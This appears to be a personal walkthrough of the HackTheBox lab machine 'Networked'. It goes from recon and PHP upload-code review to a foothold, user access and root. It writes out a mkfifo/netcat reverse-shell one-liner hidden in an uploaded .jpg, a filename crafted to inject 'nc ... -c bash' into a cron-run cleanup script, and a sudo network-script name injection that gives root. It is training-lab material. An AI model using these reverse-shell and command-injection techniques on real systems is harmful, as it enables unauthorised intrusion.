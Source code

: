 # Networked
## HackTheBox
### 10.129.235.199

#### NMAP
   PORT   STATE SERVICE REASON         VERSION
 * 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
 * 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
    http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
    http-methods:
      Supported Methods: GET HEAD POST OPTIONS
    http-title: Site doesn't have a title (text/html; charset=UTF-8).

#### Port 80
> Hello mate, we're building the new FaceMash!
> Help by funding us and be the new Tyler&Cameron!
> Join us at the pool party this Sat to get a glimpse

Found in source:
`<!-- upload and gallery not yet linked -->` 

#### Directories
```
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.235.199
 🚀  Threads               │ 80
 📖  Wordlist              │ /SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 🦡  User-Agent            │ feroxbuster/2.3.2
 💾  Output File           │ dirs/initialDir.log
 💲  Extensions            │ [php, html, txt]
──────────────────────────────────────────────────
200        8l       40w      229c http://10.129.235.199/index.php
301        7l       20w      238c http://10.129.235.199/uploads
200       22l       88w     1302c http://10.129.235.199/photos.php
200        1l        1w        2c http://10.129.235.199/uploads/index.html
200        5l       13w      169c http://10.129.235.199/upload.php
200        0l        0w        0c http://10.129.235.199/lib.php
301        7l       20w      237c http://10.129.235.199/backup
```
 * File upload available at `http://10.129.235.199/upload.php` 
 * File directory at `http://10.129.235.199/backup/` with file `backup.tar`

#### '/backup/` with file `backup.tar`
`wget http://10.129.235.199/backup/backup.tar` - saved in `/files`

The following files were listed in backup:
```Console
-rw-r--r--  staff  10240 Jul  9  2019 backup.tar
-rw-r--r--  staff    229 Jul  9  2019 index.php
-rw-r--r--  staff   2001 Jul  2  2019 lib.php
-rw-r--r--  staff   1871 Jul  2  2019 photos.php
-rw-r--r--  staff   1331 Jul  2  2019 upload.php
```

Photos.php
 * Gives file directories:
   * /var/www/html/lib.php
   * /var/www/html/uploads/

Interesting code in `photos.php`:
```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$ignored = array('.', '..', 'index.html');
$files = array();

$i = 1;
echo '<div class="tg-wrap"><table class="tg">'."\n";

foreach (scandir($path) as $file) {
  if (in_array($file, $ignored)) continue;
  $files[$file] = filemtime($path. '/' . $file);
}
```

From `photos.php`
```php
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
```
 * Requires files less than 60000 bytes = 60kb
 * Requires uploaded file to have one of the following extensions: '.jpg', '.png', '.gif', '.jpeg'

Bypass file size by injecting code into the image itself
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.14.29 4242 >/tmp/f' > ProfileBlue.jpg`
 * Uploaded file to uploads
 * set up ncat listner to port 4242

**Note to self**
Remember the difference between using `>` and `>>`

 * shell achieved

#### User
 * User with no access to user. After some console setting adjustments
 * There is a user `guly` where the user flag is saved.
 * Found `check_attack.php` in the user's folder (copied and saved in `/files`
   * unfiltered command `rm` to remove unwanted files in the `/var/www/html/uploads/` path
   * create a file containing payload: command prepended with a ; to have guly execute `nc $IP 8888 -c bash`
   * command `touch '; nc <IP> 8888 -c bash`
   * After a bit of a wait, a connection was made.

user flag: `526*****************************`

#### Privesc as guly
Checked `sudo -l`
```Console
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
  * saved this in `/files`

references file `/etc/sysconfig/network-scripts/ifcfg-guly`
Provide argument `bash` when it asks for name, run as `sudo`

```Console
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `0a8*****************************`
